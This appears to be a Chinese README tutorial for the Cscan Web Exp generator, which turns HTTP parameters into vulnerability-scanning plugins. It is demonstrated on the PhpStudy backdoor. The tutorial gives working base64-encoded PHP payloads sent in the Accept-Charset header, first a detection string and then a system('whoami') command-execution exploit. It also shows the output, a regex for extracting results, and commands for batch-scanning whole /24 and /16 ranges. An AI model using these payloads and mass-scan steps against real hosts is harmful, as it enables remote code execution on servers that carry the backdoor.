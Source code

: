 # Web漏洞插件生成器使用教程<br>
### 简介
Cscan Web Exp生成器包含4种提交方法Get/Post/Put/Delete,支持15个Http协议参数。<br>
用户无需编程能力，填写HTTP参数即可生成Web漏洞POC，快速扩展Cscan扫描能力。

### 运行环境<br>
运行环境：.net 3.5(Win7自带)<br>
将生成器和Cscan.exe放在同一目录<br>

### PhpStudy后门为例<br>
https://github.com/k8gege/PhpStudyDoor
### 0x001 测试POC<br>

打印字符串<br>
echo "ISDoorOK";<br>
K8飞刀Base64编码得到 ZWNobyAiSVNEb29yT0siOw==<br>
如包含 ISDoorOK ,返回PhpStudyDoor<br>

配置<br>
Accept-Encoding: gzip,deflate<br>
Accept-Charset: ZWNobyAiSVNEb29yT0siOw==<br>

PocTag: ISDoorOK<br>
PocName: PhpStudyDoor<br>

编译测试<br>
Cscan 5.2<br>
By K8gege<br>
load netscan.dll<br>
http://192.168.1.26     PhpStudyDoor<br>
Finished!<br>
![](https://github.com/k8gege/K8CScan/blob/master/ExpGenerator/Demo/PhpStudyPoc.PNG)

### 0x002 利用EXP
执行whoami命令<br>
echo 'start';system('whoami');echo 'end';<br>

配置<br>
Accept-Encoding: gzip,deflate<br>
Accept-Charset: ZWNobyAnc3RhcnQnO3N5c3RlbSgnd2hvYW1pJyk7ZWNobyAnZW5kJzs=<br>

编译测试<br>
Cscan 5.2<br>
By K8gege<br>
load netscan.dll<br>
startwin-4udh62v7dmn\null<br>
endHello World<br>
Finished!<br>
![](https://github.com/k8gege/K8CScan/blob/master/ExpGenerator/Demo/PhpStudyTest.PNG)
### 0x003 结果提取
Result勾选替换换行为空格<br>
正则: (?<=start).*?(?=end)<br>
![](https://github.com/k8gege/K8CScan/blob/master/ExpGenerator/Demo/PhpStudyExp.PNG)
### 0x004 批量调用
为了不被后续Exp覆盖,可将netscan.dll改名为PhpStudyExp.dll<br>
单个IP检测 Cscan 192.168.1.8 PhpStudyExp.dll<br>
单个URL检测Cscan http://192.168.1.8 PhpStudyExp.dll<br>
批量C段检测 Cscan 192.168.1.8/24 PhpStudyExp.dll<br>
批量B段检测 Cscan 192.168.1.8/16 PhpStudyExp.dll<br>
批量url.txt检测 Cscan PhpStudyExp.dll<br>
![](https://github.com/k8gege/K8CScan/blob/master/ExpGenerator/Demo/PhpStudyCscan.png)
### 0x005 下载
https://github.com/k8gege/K8CScan/tree/master/ExpGenerator

